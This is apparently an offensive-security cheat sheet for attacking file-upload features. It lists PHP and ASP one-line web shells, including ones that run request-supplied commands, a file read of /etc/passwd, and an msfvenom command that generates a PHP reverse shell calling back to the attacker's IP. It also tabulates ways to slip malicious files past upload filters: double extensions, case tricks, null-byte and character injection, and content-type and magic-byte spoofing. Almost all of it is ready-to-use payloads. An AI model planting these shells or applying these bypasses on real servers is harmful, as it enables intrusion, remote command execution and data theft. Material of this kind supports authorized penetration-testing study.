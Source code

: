 

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation `in windows only` |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` , `:` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) , [Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime) | List of File Signatures/Magic Bytes |
